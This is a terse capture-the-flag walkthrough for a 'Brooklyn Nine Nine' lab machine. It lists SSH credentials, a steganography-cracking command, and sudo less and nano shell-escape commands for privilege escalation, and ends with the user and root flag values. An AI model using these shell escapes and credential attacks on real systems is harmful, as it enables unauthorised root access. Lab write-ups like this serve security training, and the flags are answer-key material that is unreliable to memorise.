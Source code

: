# Brooklyn Nine Nine-Bruteforce SSH service&sudo less privilege escalation&sudo nano privilege escalation

```
export IP=10.10.236.40
```

# Material needed

1. SSH credential 1

```
jake:987654321
```

2. Reverse engineering brooklyn99.jpg 

```
stegcracker brooklyn99.jpg 
``` 

3. SSH credential 2

```
holt:fluffydog12@ninenine
```

4. Privilege escalation 1 

```
sudo /usr/bin/less /etc/profile
!/bin/sh
```

5. Privilege escalation 2

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

# Tasks

1. User flag

```
ee11cbb19052e40b07aac0ca060c23ee
```

2. Root flag

```
63a9f0ea7bb98050796b649e85481845
```